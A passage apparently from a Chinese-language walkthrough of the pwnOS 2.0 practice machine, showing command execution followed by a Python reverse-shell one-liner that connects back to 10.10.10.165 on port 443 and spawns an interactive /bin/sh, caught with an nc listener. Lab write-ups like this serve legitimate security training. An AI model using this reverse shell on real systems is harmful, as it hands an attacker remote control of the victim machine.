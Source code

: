 ![Alt text](/img/game/pwnos2.0/1511859064443.png)

执行命令：

![Alt text](/img/game/pwnos2.0/1511859137534.png)


命令可以执行，使用`which python`查看有没有python环境。即，使用python 反弹shell:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.165",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

本地nc监听，得到shell:
